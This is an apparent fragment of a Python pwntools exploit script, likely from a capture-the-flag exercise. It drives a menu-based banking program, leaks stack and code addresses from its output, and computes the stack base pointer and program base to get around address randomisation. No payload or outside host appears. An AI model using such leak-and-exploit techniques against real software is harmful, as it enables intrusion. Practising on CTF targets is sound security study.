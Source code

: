 ```python
p.sendline('1')
recv_input()
p.sendline('1')
recv_input()


# log in
p.sendline('1')
recv_input()
p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

# create account 1

p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

# create account 2

p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

p.sendline('a')

# make transaction

p.sendline('2')
recv_input()

p.sendline(str(account_id_counter))
account_id_counter += 1
recv_input()
p.sendline(str(account_id_counter))
account_id_counter += 1
recv_input()
p.sendline('1')
recv_input()

p.sendline('1')
p.recvuntil('\'')
addrs = p.recvuntil('\'')[:-1]
addrs = [int(x,16) for x in addrs.split(b'.') if x not in b'']

p.sendline("")
recv_input()


p.sendline("")
p.sendline("0")
recv_input()
p.sendline("31337")
recv_input()


ebp = addrs[0] + 0x1b4
# ebp = 0xffffdb18
program_base = addrs[1] - 0xb203
```